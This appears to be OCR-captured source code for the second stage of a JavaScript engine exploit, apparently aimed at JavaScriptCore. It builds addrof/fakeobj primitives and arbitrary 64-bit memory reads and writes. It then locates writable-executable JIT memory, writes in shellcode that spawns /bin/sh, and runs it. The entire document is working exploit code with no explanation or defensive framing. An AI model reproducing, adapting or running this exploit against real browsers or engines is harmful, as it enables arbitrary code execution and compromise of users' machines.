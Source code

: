 ```javascript

var stage2 = {
    addrof: function(obj) {
        boxed[0] = obj;
        return f2i(unboxed[0]);
    },
    fakeobj: function(addr) {
        unboxed[0] = i2f(addr);
        return boxed[0];
    },
    read64: function(addr) {
        real_fake[1] = i2f(addr + 0x10);
        return this.addrof(victim.a);
    },
    write64: function(addr, data) {
        real_fake[1] = i2f(addr + 0x10);
        victim.a = this.fakeobj(data);
    },
    getJITFunction: function() {
        function target(num) {
            for (var i = 2; i < num; i++) {
                if (num % i === 0) { return false; }
            }
            return true;
        }
        for (var i = 0; i < 1000; i++) { target(i); }
        for (var i = 0; i < 1000; i++) { target(i); }
        for (var i = 0; i < 1000; i++) { target(i); }
        print(describe(target))
        return target;
    },
    getRWXMem: function() {
        var shellcodeFunc = this.getJITFunction();
        var shellcodeFuncAddr = this.addrof(shellcodeFunc);
        print("[+] Shellcode function => 0x" + shellcodeFuncAddr.toString(16));
        var executableAddr = this.read64(shellcodeFuncAddr + 8 * 3);
        print("[+] Executable instance => 0x" + executableAddr.toString(16));
        var jitCodeAddr = this.read64(executableAddr + 8 * 3);
        print("[+] JITCode instance => 0x" + jitCodeAddr.toString(16));
        var rwxMemAddr = this.read64(jitCodeAddr + 8 * 4);
        print("[+] RWX memory => 0x" + rwxMemAddr.toString(16));
        return [shellcodeFunc, rwxMemAddr];
    },
    injectShellcode: function(addr, shellcode) {
        var theAddr = addr;
        for(var i = 0, len = shellcode.length; i < len; i++) {
            this.write64(addr + i, shellcode[i].charCodeAt());
        }
    },
    pwn: function() {
        shellcodeObj = this.getRWXMem();
        shellcode = "j;X\x99RH\xbb//bin/shST_RWT^\x0f\x05";
        this.injectShellcode(shellcodeObj[1], shellcode);
        var shellcodeFunc = shellcodeObj[0];
        shellcodeFunc();
    },
};
```
